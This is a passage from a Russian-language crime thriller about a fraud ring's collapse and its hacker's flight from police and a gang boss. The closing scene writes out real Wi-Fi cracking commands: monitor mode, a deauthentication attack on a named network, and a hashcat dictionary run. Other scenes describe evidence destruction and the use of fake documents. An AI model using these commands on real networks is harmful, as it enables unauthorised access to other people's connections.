Её правая рука, скрытая от глаз Паши стойкой, плавно опустилась вниз. Он не видел её движения, но почувствовал его. Не было ни звука, ни мигания лампочки. Она просто нажала кнопку. Бесшумную, тревожную кнопку, сигнал о подозрительной операции.

Паша перевёл взгляд на охранника у входа. Тот, кто до этого момента казался частью интерьера, вдруг ожил. Он выпрямился, поправил ремень на форменных брюках и сделал едва заметное движение головой. И посмотрел. Прямо на Пашу. Их взгляды встретились на долю секунды, и в этом пустом, невыразительном взгляде Паша прочёл свой приговор.

Логика отключилась. В голове осталась одна мысль, выжигающая всё остальное: БЕЖАТЬ.

Он резко развернулся, неуклюже оттолкнув стоявшую за ним в очереди старушку. Та ахнула и выронила сумку. Паша сорвался с места. Его бег был паническим, спотыкающимся. Он не думал, куда бежит, он просто бежал к выходу, к спасительному свету улицы. Он не добежал. Охранник, двигаясь с неожиданной для его габаритов лёгкостью, сделал два широких шага в сторону, перекрывая ему путь. Паша попытался его обогнуть, но наткнулся на жёсткую, как стена, руку. Второй рукой охранник схватил его за шиворот куртки, дёрнул на себя и с силой завалил на кафельный пол. Удар был глухим и болезненным. Воздух вышибло из лёгких. В зале раздался пронзительный крик старушки. Очки Паши слетели с лица и с тихим звоном разбились о плитку, разлетевшись мелкими осколками. Мир перед его глазами превратился в размытое, качающееся пятно.

*15:00.*

В кабинете майора ГУЭБиПК Дмитрия Власова пахло дешёвым растворимым кофе и бумажной пылью. Власов не любил кофемашину, которую ему подарили коллеги на юбилей. Он считал её ненужным усложнением простого процесса. Он любил свою старую кружку с логотипом футбольного «Зенита» и горький, химический вкус «Nescafe Classic». Это было привычно. А привычка для Власова была синонимом порядка.

Он сделал глоток, поморщился и поставил кружку на стол, заваленный папками. На его мониторе была открыта внутренняя система финансового мониторинга. Он спокойно, без всякого удивления, читал короткое сообщение, помеченное красным флажком: *«14:46. ВТБ (ПАО), ДО ‘На Ветеранов’. Попытка снятия 495,000 RUB со счёта №40817...ХХХХХХ1092, открытого на имя Сергеева П.И. Сработал триггер ‘Подозрительная активность’. Клиент задержан при попытке скрыться. Объект ‘Паштет’».*

Это был ожидаемый результат. Не удача, а закономерность. Власов не верил в удачу. Он верил в системную работу.

Почти сразу зазвонил внутренний телефон. Власов снял трубку.

— Слушаю.

— Дмитрий Сергеевич, — раздался в трубке молодой, возбуждённый голос оперативника, — у нас движение. По сигналу из ВТБ сработала группа. Одновременно попытались снять в отделениях Сбера на Просвете и в Альфе на Гражданке. Карты заблокировали, двоих приняли. «Змей» и «Муха». Чисто.

— Хорошо, — ровным голосом ответил Власов. — Оформляйте. Привозите всех сюда.

Он положил трубку и поднялся из-за стола. Подошёл к большой магнитной доске, занимавшей почти всю стену. На ней была выстроена вся известная ему структура группы Козлова-«Банкира». Фотографии, никнеймы, адреса, соединённые разноцветными линиями, как нейронная сеть. Это была его карта войны. Он взял красный маркер. Колпачок щёлкнул, как взведённый курок. Спокойно, с почти каллиграфической точностью, он обвёл три фотографии в нижней части схемы — три молодых, глупых лица. Под ними были подписи: «Паштет», «Змей», «Муха». Пушечное мясо. Расходный материал. Но именно через них, через самое слабое звено, система и дала сбой.

В самом центре схемы, на вершине этой уродливой пирамиды, было пустое место. Белый прямоугольник с жирным вопросительным знаком и надписью, сделанной его рукой: «ОРГАНИЗАТОР/ТЕХНАРЬ». Вот его настоящая цель. Не Козлов, старый, предсказуемый динозавр. А тот, кто сидел за клавиатурой и дёргал за ниточки.

Власов вернулся к столу, взял свой служебный, кнопочный телефон. Нашёл в списке контакт, записанный как «Сойка». Набрал короткое сообщение из одного слова: «Чисто». Это был сигнал. Её роль на данном этапе была выполнена. Она не должна была проявлять никакой активности, просто ждать дальнейших инструкций. Он не благодарил её. Она не была его коллегой или другом. Она была инструментом. Таким же, как прослушка или наружное наблюдение. Просто более эффективным. Он нажал «отправить» и отложил телефон. Взял кружку и сделал ещё один глоток остывшего, горького кофе. Работа продолжалась.

*15:15.*

Никита всё ещё был на пике. Эйфория отступила, сменившись приятным, тёплым чувством профессионального удовлетворения. Он несколько раз обновил страницу своего анонимного кошелька Cake Wallet, ожидая первого транша от дроповодов. Деньги должны были начать поступать с минуты на минуту. Он уже представлял, как позвонит матери и скажет, что премия пришла. Что они могут начинать лечение хоть завтра.

В этот момент в чате дроповодов, где уже началось вялое обсуждение, кто на какой точке, появилось первое сообщение от одного из координаторов, «Бригадира».

*Бригадир: Паштета приняли в ВТБ на Ветеранов. Инфа 100%.*

Сердце Никиты пропустило удар. Он замер, вглядываясь в строчку на экране. Приняли? Как? Случайность?

Через секунду чат взорвался. Это было похоже на обрыв плотины. Десятки сообщений хлынули потоком, сметая его спокойствие, его триумф, его уверенность.

*Старшой: У Змея карта в блоке! Сбер развернул!*

*Хмурый: Муха не выходит на связь! Телефон выключен!*

*Бригадир: Это облава! Точно облава!*

*Кастет: МЕНТЫ! СЪЁБЫВАЕМСЯ!*

*Старшой: Какие менты? Откуда?*

*Бригадир: ВСЕ НА ТОРМОЗ! ОТМЕНА!*

Экран монитора превратился в визуальное воплощение хаоса. Панические стикеры, короткие голосовые сообщения, полные отборного мата, капслок, восклицательные знаки. Эйфория, висевшая в воздухе его комнаты-бункера, испарилась без следа. Её место занял холод. Ледяной, пробирающий до костей холод осознания.

Он смотрел на этот шторм сообщений, и в его мозгу, привыкшем искать паттерны и системные ошибки, всё сложилось в одну страшную картину. Это не единичный сбой. Паша-«Паштет» — не просто нервный дурачок, который спалился. Это системный провал. Одновременно. В разных точках города. В разных банках. Такого совпадения быть не могло. Их ждали.

Схема рухнула. 47 миллионов сгорели, арестованные на счетах-прокладках.

Желудок превратился в кусок льда. Но он не впал в ступор. Годы паранойи и жизни в цифровых окопах выработали в нём рефлекс. Опасность — не паникуй, а действуй. Он резко закрыл окно Telegram. Его проблема сейчас — не потерянные деньги. Его проблема — разъярённый Козлов, который решит, что это он, «технарь», его кинул. А ещё большая проблема — та, о которой он ещё не знал.

Его пальцы, уже без всякой дрожи, холодно и точно, замелькали над клавиатурой. Он открыл новый терминал и запустил другой скрипт, написанный для такого случая: emergency_cleanup․sh. На экране побежали строки, подтверждающие экстренное форматирование дисков и стирание логов с его удалённого C2-сервера. Он ещё не понимал, что его ищут не бандиты. Он думал, что нужно прятаться от примитивной грубой силы.

Он ещё не осознавал, что настоящая, методичная и безжалостная охота государственной машины только что началась.

### Глава 5

Глава 5

Два с половиной часа. Сто пятьдесят минут. Девять тысяч секунд. Время схлопнулось. Мир за окном перестал существовать, сжался до гула вентиляторов и стука собственного сердца в ушах. Адреналин выжег всё остальное. Никита больше не чувствовал ни эйфории, ни страха в его липком, парализующем проявлении. На смену им пришёл холод. Чистый, дистиллированный холод выживания, который отключал всё лишнее, оставляя лишь протоколы и рефлексы. Он двигался по квартире как чужой, методично стирая следы. Не улики — себя.

В семнадцать ноль-ноль, за семьдесят километров от купчинской панельки, в выхолощенной, мёртвой тишине дома под Сестрорецком, Антон Викторович Козлов смотрел на дисплей автоматического тонометра. Цифры горели красным, как стоп-сигнал перед аварией: 160/100. Пульс — 98. Он почувствовал, как горячая волна поднимается от груди к вискам, и медленно, с усилием, разжал кулак. Манжета на плече с шипением сдулась, оставляя на коже бледные следы.

Не бандитское логово из фильмов, а холодный, выверенный интерьер модного архитектурного журнала. Полированный бетонный пол, панорамное окно во всю стену, выходящее на хмурый, покрытый рябью Финский залив, и дизайнерская мебель строгих геометрических форм. Фильтры выедали из воздуха любой запах, и дышалось так, будто в лёгкие попадала не пыль, а звенящая пустота. Единственным живым пятном в этой мёртвой геометрии был сам Козлов, грузный, массивный мужчина в дорогом кашемировом свитере, и его помощник Олег — худой, бледный молодой человек в идеально отглаженной рубашке, застывший в двух метрах от кресла босса.

— Сорок семь миллионов, — голос Козлова был тихим, почти без интонаций, отчего слова казались ещё тяжелее. Он не смотрел на Олега, его взгляд был прикован к серым волнам за стеклом. — Просто... испарились. Значит, у нас крыса, Олег.

Он произнёс это слово — «крыса» — с таким физическим отвращением, будто само оно оставляло во рту гнилой привкус. Олега передёрнуло. Он стоял, сцепив руки за спиной так, что сквозь кожу проступили сухожилия.

— Антон Викторович, может, это технический сбой? Банк заблокировал транзакции, система безопасности... ну, наши ребята говорят, что...

— Нет. — Козлов медленно повернул голову. Его обычно сонный взгляд стал жёстким, сверлящим. — Это не сбой. Сбой — это когда один дроп горит. Или два. А когда вся сетка ложится одновременно, по щелчку, от Питера до Выборга... это не сбой. Это работа. Чья-то хорошая, слаженная работа.

Он замолчал, давая тишине сделать своё дело. Олег сглотнул. В этой тишине слышно было, как жужжит дорогой швейцарский хронометр на запястье Козлова.

— Мы не знаем, как... — начал было Олег.

Козлов поднял руку, прерывая его. Он спокойно, без суеты, взял со стеклянного столика свой Vertu. Телефон, отделанный титаном и кожей аллигатора, стоил как подержанный автомобиль. Он повертел его в широкой ладони, словно взвешивая. А потом, без замаха, резким, коротким движением швырнул его в стену.

Никакого голливудского взрыва. Просто сухой, отвратительный треск ломающегося карбона и сапфирового стекла. Телефон отскочил от стены и упал на бетонный пол, разлетевшись на три части. Батарея откатилась под кресло. Олег вздрогнул, но не шелохнулся.

Козлов медленно поднялся. Он подошёл к останкам телефона, посмотрел на них сверху вниз, а потом спокойно, носком дорогого итальянского ботинка, отшвырнул корпус в сторону. Повернулся к застывшему помощнику. Лицо его было абсолютно спокойным, даже умиротворённым.

— Найди мне этого... компуктерщика. — Голос его снова стал тихим. — Я не знаю, кто он. Мне плевать. Найди его. И того, на кого он работал. Кто слил ему инфу. Мне нужны все. Живыми. — Он сделал паузу, вглядываясь в глаза Олега. — Сначала живыми. Понял?

Олег судорожно кивнул.

— Да, Антон Викторович.

— Иди, — бросил Козлов и снова сел в кресло.

Когда Олег, стараясь двигаться бесшумно, вышел из комнаты, Козлов снова надел манжету тонометра и нажал на кнопку. Он смотрел, как на дисплее снова загораются цифры, как будто это был самый важный отчёт в его жизни. Он ненавидел две вещи больше всего на свете: повышенное давление и предательство. И сегодня оба его врага были здесь, в этой комнате, дышали ему в затылок.

В восемнадцать тридцать, в квартире на окраине Купчино, стих последний звук. Вентиляторы на стойке с самодельным сервером, гудевшие последние три часа на предельных оборотах, замедлили свой бег и наконец замерли. Никита сидел перед погасшим монитором терминала. На чёрном экране последняя строка отчёта светилась зелёным: shred: /dev/sda: pass 3/3 (random) done. Всё. Физический диск его C2-сервера, где хранились логи и скрипты, был перезаписан трижды. Теперь там был просто цифровой шум. Даже если этот сервер попадёт в руки криминалистов из отдела «К», они не найдут там ничего, кроме мёртвого железа.

Он откинулся на спинку скрипучего кресла. Пот, ручьями стекавший по спине, начал остывать, вызывая неприятный озноб. Ладонь сама коснулась мокрых волос.

«Всё. Концов нет», — пронеслось в голове.

«Для Козлова я просто ник в телеге. B4d_M00d. Инструмент. Инструменты ломаются, их выбрасывают, но не ищут. Искать будут дропов, бухгалтера... мясо. Тех, кого можно потрогать. А я — призрак. Технарь. Меня не достать».

Это была мантра. Ложь, которую он повторял себе, чтобы выровнять дыхание и унять дрожь в пальцах. Он пытался мыслить логически. Козлов — бандит старой школы. Он будет действовать по старинке: найдёт дропов, выбьет из них ники, может, выйдет на посредников. Но на него, на архитектора схемы, выйти невозможно.

Никита встал и прошёлся по комнате. Одиннадцать шагов от окна до двери. Одиннадцать шагов обратно. Его клетка. Привычный гул серверов пропал, и в оглохшую квартиру ворвались звуки, которых он раньше не замечал: утробное гудение старого холодильника «Саратов» на кухне, приглушённое бормотание телевизора у соседки. Этот бытовой шум теперь казался оглушительным. Он слышал собственное дыхание, шум крови в ушах. Каждый скрип паркета под ногами отдавался в нервах электрическим разрядом.

Иллюзия контроля — его личный файрвол от реальности — посыпалась под DDoS-атакой этой вязкой тишины. Он должен уходить. Не сегодня, но завтра. Пересидеть пару дней, убедиться, что за ним нет хвоста, и исчезнуть. Снять квартиру в Колпино, как и планировал. На левый скан паспорта. Залечь на дно. Деньги Алиева, те самые 5․82 Monero, были на анонимном кошельке. Этого хватит на несколько месяцев скромной жизни и на лекарства для матери.

Он остановился посреди комнаты, прислушиваясь. Ничего. Только гул холодильника и где-то за стеной приглушённо бормочет телевизор. Спокойно. Всё спокойно.

И в этот самый момент, в этой мёртвой тишине, раздался звук.

Тихий, почти невесомый, но в наступившем безмолвии он прозвучал как выстрел. Звук стандартного системного уведомления о новом письме. Он доносился со стороны его личного ноутбука — старого ThinkPad, который он использовал для сёрфинга и никогда — для работы.

Никита замер. Позвоночник пронзил ледяной импульс, заставив мышцы спины окаменеть.

Эта почта.

Этот ящик.

Он не должен был получать писем. Он не использовал его уже года три. Все уведомления были отключены. Это был мёртвый ящик. Призрак из прошлого.

Время не остановилось — оно сжалось в одну точку, в этот тихий системный писк. Мозг, заточенный под анализ угроз, успел прокрутить десяток худших сценариев, пока тело оставалось парализованным. Никита не дышал. Он стоял посреди комнаты, а звук всё ещё висел в воздухе. Его мозг мгновенно пометил это событие красным флагом. Это было неправильно. Это было невозможно. А всё, что невозможно, но происходит, — это атака.

Медленно, как сапёр, приближающийся к мине, он подошёл к столу, где лежал закрытый ноутбук. Руки похолодели, пальцы не слушались. Он поднял крышку. Экран ожил, заливая его лицо холодным белым светом. В углу экрана, в трее почтового клиента Claws Mail, висела иконка с единицей. Одно новое письмо.

Он подвёл курсор к иконке. Палец завис над тачпадом. «Не открывай. Не трогай. Это может быть ловушка. Письмо с маячком. Однопиксельная картинка, которая сольёт твой IP». Но он уже был в своей сети. Прятаться было поздно.

Он щёлкнул. Открылся список входящих. Одно непрочитанное письмо.

*Отправитель: no-reply@exploit․in.*

*Тема: Password reset request.*

Он почувствовал, как мир сузился до этих строк, а в ушах зазвенело от прилива крови. Exploit․in. Один из старейших теневых форумов рунета. Он зарегистрировался там лет пять назад. Ник — B4d_M00d. Тот самый. Он давно не заходил туда, считая площадку скомпрометированной и кишащей силовиками. Почта, привязанная к аккаунту, была этой самой, мёртвой. Он был уверен, что её давно удалили за неактивность. Но, видимо, нет.

Дрожащей рукой он открыл письмо. Тело сообщения было предельно простым.

*Здравствуйте, B4d_M00d.*

*Был получен запрос на сброс пароля для вашего аккаунта. Если это были не вы, проигнорируйте это письмо.*

*Если это были вы, перейдите по ссылке ниже:*

*[ссылка]*

---

*IP-адрес, с которого был сделан запрос: 78․107․195․41 (Moscow, Russia)*

Никита смотрел на последнюю строчку, и мир вокруг него потерял структуру. Вся его логическая схема, его тщательно выстроенная крепость, рухнула в один момент. Он не просто видел эти цифры. Он их знал. Как врач знает симптомы смертельной болезни. 78․107. Это не был IP-адрес другого хакера. Это был не прокси-сервер в Амстердаме или VPN в Панаме. Это был один из внешних пулов, который использовал «Ростелеком» для предоставления услуг госструктурам по защищённым каналам. Это был адрес, смотрящий наружу из серой, безликой инфраструктуры СОРМ.

Это были менты.

Осознание пришло не в голову — оно ударило в солнечное сплетение, сбив дыхание и заставив согнуться.

Вся его стройная теория рухнула. Его искал не Козлов. Вернее, не только он. Его искали те, от кого нельзя было спрятаться.

Логическая цепочка выстроилась в голове с безжалостной скоростью.

Они взяли дропов. Сняли с их телефонов переписки. Нашли его ник — B4d_M00d. Пробили его по всем известным базам и форумам. Нашли его старый аккаунт на exploit․in. И решили проверить, жива ли привязанная к нему почта. Они не взламывали его. Они просто нажали кнопку «Забыли пароль». Самый простой и гениальный ход. Они закинули удочку в тёмную воду. Маячок. И он, идиот, только что на него клюнул. Его почтовый клиент, автоматически скачав письмо, оставил запись в логах почтовика. Они ещё не знают, где он, но теперь они знают, что он здесь. Что он активен. Что он видит их.

Игра закончилась. Это больше не была игра. Это была охота. И он был дичью.

Секундный паралич прошёл. Мозг, перегруженный ужасом, отключил все эмоции. В голове, вытесняя панику, запустился аварийный алгоритм, вшитый в подкорку годами паранойи. Движения стали резкими, экономными, лишёнными всякой человеческой пластики. Он превратился в робота, выполняющего программу.

Первое. Шкаф. Он рванул на себя дверцу так, что она ударилась о стену. С вешалки сорвал старую куртку, за которой, на антресоли, лежал он — чёрный, невзрачный рюкзак. Он не проверял его содержимое. Он собирал его полгода, методично, как солдат собирает вещмешок. Там было всё: наличные, несколько левых паспортов, горелка для уничтожения сим-карт, аптечка, набор отмычек, дешёвый кнопочный телефон и несколько анонимных симок. Он доверял своему прошлому «я» больше, чем настоящему.

Второе. Кухня. Два шага, и он уже там. Дверца старой микроволновки открылась с протестующим скрипом. Внутри, на стеклянном поддоне, лежали два небольших свёртка из фольги. Его кустарная защита. Он схватил их. В одном, потяжелее, были его основные рабочие SSD-диски. В другом, лёгком, россыпь SIM-карт — его цифровая шкура.

Третье. Рабочий стол. Из всего нагромождения техники он забрал только один предмет. Маленькую, похожую на жука флешку Kingston IronKey, висевшую на связке с ключами. Его крипто-кошелёк. Его единственная надежда. Всё остальное — системный блок, мониторы, серверная стойка — теперь было не просто железом. Это были улики. Якоря, тянувшие его на дно.

Он замер на секунду посреди комнаты, с рюкзаком на одном плече и свёртками в руке. Взгляд скользнул по убогой обстановке. Дешёвая мебель. Стопки книг по сетям и криптографии. И на столе, рядом с монитором, маленькая фотография в рамке. Мать. Она улыбалась, молодая, ещё здоровая.

Он понял, что больше никогда сюда не вернётся.

Никаких эмоций. Ни жалости, ни тоски. Только холодное, отстранённое осознание факта. Программа выполнялась. Эмоции были лишним процессом, пожирающим ресурсы. Он развернулся и пошёл в ванную.

За шатающейся кафельной плиткой под ванной, в нише, где проходили ржавые трубы, был его маленький тайник. Он подцепил плитку ногтем, и она легко отошла. Оттуда он извлёк литровую пластиковую бутылку, наполненную мутной желтоватой жидкостью. Соляная кислота, купленная на строительном рынке для «прочистки труб».

Он вернулся на кухню. Движения оставались механическими. Он сбросил в металлическую раковину SSD-диски из первого свёртка и высыпал следом разноцветную горсть SIM-карт. Они лежали там, как причудливый улов — чёрный пластик, зелёные платы, позолоченные контакты. Вся его прошлая цифровая жизнь.

Он открутил крышку с бутылки. Не было ни колебаний, ни последней мысли. Просто действие. Он наклонил бутылку и вылил едкую жидкость прямо на пластиковую груду.

Раздалось мгновенное, злое шипение, похожее на звук, с которым вода попадает на раскалённый жир. В нос ударил резкий, удушающий запах хлороводорода, заставив его отшатнуться и закашляться. Чёрные корпуса дисков тут же пошли пузырями, пластик начал чернеть, оплывать, как воск, обнажая зелёное нутро печатных плат. Тонкие SIM-карты коробились, скручивались и растворялись на глазах, оставляя после себя лишь цветные разводы и едкий, белый дым, поднимавшийся из раковины.

Никита не смотрел. Он уже отвернулся, натягивая на ходу капюшон старой толстовки низко на лоб. Он не мог позволить себе застыть и наблюдать, как кислота пожирает его прошлое. Это была непозволительная роскошь. Рюкзак тяжело давил на плечо, оттягивая его к выходу.

Он подошёл к входной двери. Ключи были в руке. Он вставил их в замок, повернул, открыл дверь. Шагнул на тускло освещённую лестничную клетку, пахнущую кошками и дешёвыми сигаретами.

И, не оборачиваясь, прикрыл за собой дверь.

Он не стал запирать её на замок.

В этом больше не было никакого смысла. Он уходил в тень, оставляя за спиной открытую, умирающую квартиру, едкий запах уничтоженных данных и призрак своей прежней жизни. Пути назад больше не было. Теперь только бежать. Без оглядки. Без остановки.

### Глава 6

Глава 6

Прошло пять суток.

Пять суток, или сто двадцать часов, или семь тысяч двести минут. Никита считал. Он считал всё: шаги от угла до угла в съёмной однушке, глотки остывшего чая, машины, проезжающие во дворе-колодце под окном — тринадцать серых, восемь чёрных, одна вызывающе красная. Время больше не текло. Оно капало. Дискретными единицами тревоги. Пять дней в вязком, беззвучном офлайне — персональный ад.

Эйфория побега испарилась, оставив после себя липкий отходняк. Петляя по ночному городу, он менял машины, расплачивался мятыми пятитысячными с безликими водителями. Он нашёл эту квартиру в Колпино через закрытый телеграм-канал, специализирующийся на «аренде по сканам». Двойной тариф, оплата за два месяца вперёд, никаких вопросов. Хозяин, судя по всему, даже не видел его — ключ ждал под ковриком.

Первые трое суток он почти не спал. Любой скрип в подъезде, скрежет лифта, пьяный крик на улице заставляли его замирать, вслушиваясь в биение собственной крови в ушах. Он питался консервами из тревожного рюкзака и пил кипячёную воду из-под крана, от которой несло ржавчиной. Он методично сломал и выбросил в разные мусорные баки кнопочный телефон, с которого договаривался о жилье. Он стал призраком. Физически это отразилось на нём моментально: он похудел, кожа приобрела сероватый оттенок, под глазами залегли глубокие, фиолетовые тени.

Острая паника выгорела. На её место пришёл холодный расчёт загнанного специалиста, который провёл рекогносцировку и теперь готовился оборудовать новую операционную базу. Единственное, что связывало его с прошлой жизнью — крохотная флешка Kingston IronKey в кармане, хранящая ключи от его крипто-сбережений. Его билет отсюда. Если он доживёт.

*20 ноября 2023 года, 22:00*

Полумрак комнаты был густым и пыльным. Единственный источник света — тусклая лампочка в коридоре — едва пробивался в комнату, выхватывая из темноты уродливые силуэты советской мебели: громоздкий шкаф, пахнущий нафталином, диван с продавленными пружинами и полированный стол, покрытый сетью мелких трещин. Воздух был неподвижным, спёртым, пах старыми обоями и едва уловимым запахом чужого, давно ушедшего быта. Никита стоял посреди комнаты, методично, почти ритуально раскладывая на грязном паркете содержимое своего рюкзака. Это действие было единственным, что придавало ему ощущение контроля.

Вот они, его активы. Пачки пятитысячных купюр, перетянутые аптечными резинками. Кажется, много. На самом деле — пыль. Хватит на несколько месяцев такой жизни, не больше. Рядом легла тяжёлая металлическая газовая горелка — не оружие, скорее инструмент последнего шанса. Аптечка с просроченным ибупрофеном и бинтами. И самое ценное — несколько SIM-карт в маленьком, экранирующем радиосигналы чехле. Инвентаризация была окончена.

Колени хрустнули. Тело, привыкшее к удобному креслу, протестовало против пяти дней сна на жёстком диване. Он подошёл к входной двери. Деревянная, обитая коричневым дерматином, с двумя замками советского образца. Он проверил их — сначала верхний, потом нижний. Замки щёлкнули громко и надёжно. Это был бессмысленный ритуал, он повторял его каждый час, но звук металла, входящего в паз, на секунду успокаивал. Он достал из кармана моток чёрной изоленты. В мёртвом безмолвии квартиры звук отрываемой ленты резанул, как скрежет металла по стеклу.

«Теперь они не увидят, что я здесь, — подумал он, прижимая кусочек пластика к мутному кружку глазка. — Но и я не увижу, кто стоит за дверью. Файрвол всегда работает в обе стороны». Всплыл кадр из какого-то старого фильма ужасов, где глаз убийцы появляется в дверном глазке. Детский страх наложился на вполне реальную угрозу. Прихожая погрузилась в окончательный мрак. Он неосознанно задержал дыхание, прислушиваясь к звукам на лестничной клетке. Пусто.

Он прошёл к единственному окну. Шторы, тяжёлые и пыльные, были плотно задёрнуты. Осторожно, двумя пальцами, он оттянул край ткани, создав узкую щель. Внизу лежал типичный двор-колодец, заставленный машинами. Жёлтый свет из окон напротив рисовал на мокром асфальте дрожащие прямоугольники. Он изучал двор, фиксируя норму. Тот же ржавый «Москвич» у подъезда. Та же компания подростков на детской площадке. Любое отклонение — припаркованный надолго фургон, человек, слишком долго сидящий на скамейке — будет сигналом.

В животе заурчало. Он не ел с утра. Выходить в магазин — самоубийство. Он достал телефон — не свой, новый, купленный вместе с левой симкой. Анонимный Qiwi-кошелёк, пополненный через терминал на другом конце города. Заказ в местной доставке. Он написал в комментарии, чтобы курьер оставил пакет у двери. Ждать пришлось сорок минут напряжённого вслушивания в шаги на лестнице.

Теперь на столе стоял бумажный пакет с шавермой. Лаваш был уже влажным и холодным, мясо — безвкусным. Он откусил большой кусок. Жевал медленно, без всякого удовольствия. Это и был вкус его новой жизни. Просто топливо.

Внезапно в подъезде раздался шум. Резкий, громкий. Шаги нескольких человек, поднимающихся по лестнице. Не размеренные, а быстрые, деловитые. Затем звук открывающегося лифта на их этаже. Никита замер с куском шавермы во рту. Вкус еды мгновенно стал тошнотворным, бумажным. В ушах заложило от прилива крови. Он перестал дышать, а каждый звук с лестничной клетки — скрип, шарканье, приглушённый кашель — стал неестественно чётким, будто усиленным через микрофон. Рука сама потянулась к тяжёлой металлической горелке на полу.

«Всё. Пришли. Пять дней. Они нашли меня за пять дней. Как? Через хозяина квартиры? Курьера? Как?!»

Чувство было знакомым, впечатанным в память с детства: звук ключа в замке после того, как ты разбил что-то ценное. Ожидание удара, от которого нельзя увернуться.

Двери лифта открылись. Голоса. Мужские, негромкие. Потом — звонок в соседнюю дверь. Скрип открываемого замка. Приглушённый разговор. Через минуту дверь захлопнулась, и шаги удалились, спускаясь по лестнице. Это были просто соседи.

Никита медленно выдохнул. Воздух вышел из лёгких со свистом. Рука, сжимавшая горелку, разжалась. Пальцы одеревенели. Приступ животного ужаса отступил, оставив после себя тошноту и дрожь во всём теле. Он посмотрел на недоеденную шаверму. Аппетит пропал окончательно. Нужно работать. Работа — единственное, что вытесняет страх. Единственное, что он ещё умеет контролировать.

*23:00*

Он достал из коробки ноутбук. Дешёвый, безымянный китайский бренд, купленный два дня назад за наличные на рынке «Юнона». Продавец, рыхлый мужик в засаленной жилетке, даже не спросил, почему он платит пятитысячными за товар стоимостью в двадцать тысяч. Корпус был из скрипучего, неприятного на ощупь чёрного пластика. Какое унижение после его кастомной рабочей станции. Но сейчас этот кусок пластика был его единственным оружием.

Он сел на пол, скрестив ноги, и поставил ноутбук на колени. Спина тут же заныла. Он включил его. Никакой предустановленной Windows с её телеметрией и бэкдорами. Он достал из рюкзака две флешки. Одна с дистрибутивом Linux, другая — с набором инструментов.

Началась кропотливая работа. Создание его «чистой комнаты». Он загрузился с флешки. Первое действие — полное шифрование диска. Он запустил VeraCrypt, выбрал самый параноидальный алгоритм — каскадный AES-Twofish-Serpent — и создал сложный пароль из шестидесяти четырёх случайных символов, который будет храниться только в его голове. Процесс занял почти час. Час, в течение которого он просто смотрел на медленно ползущую зелёную полосу прогресса, слушая натужный вой дешёвого кулера.

«Первый слой брони. Даже если они возьмут эту жестянку, они получат просто кусок зашифрованного мусора. У меня будет время. Главное — это время».

Монотонная, методичная работа успокаивала. Он чувствовал, как контроль, утерянный в реальном мире, возвращается к нему в цифровом. Он вспомнил свой первый урок по криптографии. Преподаватель, старый очкарик, говорил: «Хорошая криптография — это математическая стена. Вы можете попытаться пробить её лбом, но быстрее умрёте от старости». Тогда это казалось абстракцией. Теперь это было вопросом выживания.

После шифрования он установил легковесный дистрибутив Linux. Затем — VirtualBox. И, наконец, главный элемент его цифровой крепости — Whonix. Он импортировал два образа виртуальных машин: Whonix-Gateway и Whonix-Workstation. Гениальная в своей простоте система. Одна машина, «шлюз», занималась исключительно тем, что подключалась к сети Tor. Вторая, «рабочая станция», могла выходить в интернет только через этот шлюз. Даже если на рабочей станции окажется вирус, он не сможет узнать реальный IP-адрес.

Он запустил шлюз. На чёрном экране побежали строки логов. Соединение с сетью Tor. Он специально настроил использование обфусцированных мостов, которые маскируют трафик Tor под обычный HTTPS-трафик, чтобы провайдер не мог даже заподозрить, что его клиент использует анонимную сеть. Ожидание затягивалось. Наконец, в логах появилась заветная строка: Bootstrapped 100%: Done. Есть контакт.

Он запустил рабочую станцию. Открыл терминал и браузер. Первым делом — параноидальная проверка. Он зашёл на check․torproject․org. Зелёная надпись: «Congratulations. This browser is configured to use Tor». Затем — на ipleak․net. Сайт показал IP-адрес где-то в Германии. DNS — в Нидерландах. Никаких утечек. Он — призрак. Он снова в сети.

*21 ноября 2023 года, 01:30*

Теперь перед ним стояла следующая задача. Доступ в интернет. Использовать проводное подключение в квартире было нельзя. Ему нужен был чужой Wi-Fi. Слабое звено в обороне любого жилого дома.

Он достал из рюкзака своё «полевое» оборудование: старенькую, но мощную Wi-Fi антенну Alfa и самодельную насадку-рефлектор, сделанную из консервной банки из-под ананасов. Примитивно, но это увеличивало дальность антенны в несколько раз. Он прикрепил всю конструкцию к подоконнику скотчем, направив её в сторону соседнего корпуса.

Он подключил антенну к ноутбуку и пробросил устройство в свою рабочую виртуальную машину. Открыл терминал.

*sudo airmon-ng start wlan0*

*sudo airodump-ng wlan0mon*

Экран ожил. Чёрное поле терминала заполнилось белыми строками. Список доступных сетей, их MAC-адреса, уровень сигнала. Он был радистом на затонувшей подлодке, вслушивающимся в эфир. Только он искал не врага, а жертву.

Его взгляд зацепился за одну строку:

*BSSID: 9C:1A:B3:4F:DE:11 PWR: -48 CH: 6 ESSID: Daria_Home*

Идеально. Отличный уровень сигнала. «Человеческие» имена сетей часто означали и «человеческие» пароли. Уязвимые.

Теперь нужно было захватить «рукопожатие» — зашифрованный обмен пакетами, содержащий хэш пароля. Чтобы его получить, нужно заставить одного из уже подключённых клиентов переподключиться. Он запустил атаку деаутентификации.

*sudo aireplay-ng --deauth 0 -a 9C:1A:B3:4F:DE:11 wlan0mon*

В соседнем окне один из клиентов отключился и тут же попытался подключиться снова. В этот момент в правом верхнем углу терминала появилась надпись:

*[ WPA handshake: 9C:1A:B3:4F:DE:11 ].*

Есть. У него был файл с зашифрованным паролем. Теперь начиналась самая нудная часть — вскрытие замка.

*02:45*

Он запустил hashcat — утилиту для перебора паролей. Указал путь к файлу с хендшейком и к словарю rockyou․txt — огромному файлу с миллионами реальных, утёкших в сеть паролей.

*hashcat -m 2500 handshake․cap rockyou․txt*

Вентилятор ноутбука взвыл. На экране замелькали строки, показывающие скорость перебора — около тридцати тысяч паролей в секунду. Невероятно медленно по сравнению с его домашней фермой, но выбирать не приходилось. Он смотрел на экран, на сменяющиеся цифры, чувствуя себя золотоискателем, просеивающим тонны песка.

Прошло двадцать минут. Статус Exhausted. Словарь закончился. Пароля в нём не было.

«Сука», — прошипел Никита. Это означало, что Дарья была не так проста.

Он не сдался. Это была уже не просто техническая задача, а дело принципа. Усталость испарилась, её сменил холодный азарт охотника. Он вспомнил, как на своей первой работе сисадмином ради смеха запустил проверку паролей в корпоративной сети. У директора пароль от админского доступа был 12345678. С тех пор он перестал удивляться человеческой глупости.

«Люди — идиоты. Они думают, что qwerty12345 — это сложный пароль, потому что в нём есть и буквы, и цифры. Они не понимают, что это одна из первых комбинаций, которую проверит любой взломщик. Человеческая лень — это не баг, это фича. Главный эксплойт нулевого дня, который никогда не исправят».

